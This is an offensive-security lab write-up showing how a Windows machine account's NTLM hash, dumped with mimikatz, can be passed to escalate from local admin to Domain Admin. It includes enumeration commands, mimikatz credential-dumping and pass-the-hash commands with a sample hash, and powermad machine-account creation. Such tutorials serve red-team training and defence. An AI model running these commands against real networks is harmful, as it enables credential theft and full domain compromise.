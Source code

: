 # Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of \(ideally administrators/domain administrators\).

This labs is based on an assumption that you have gained local administrator privileges on a workstation \(machine\), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-03-19.png)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-22-59.png)

or administrators group \(not applicable to our lab, but showing as a sidenote\):

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-24-07.png)

In AD, the highlighted part can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-36-17.png)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-29-17.png)

Let's check that our current compromised user `ws01\mantvydas` \(local admin on ws01\) cannot access the domain controller DC01 just yet:

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-47-10.png)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-52-35.png)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](../../.gitbook/assets/peek-2018-12-29-15-49.gif)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](../../.gitbook/assets/image%20%28199%29.png)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](../../.gitbook/assets/image%20%28158%29.png)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](../../.gitbook/assets/image%20%2884%29.png)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}

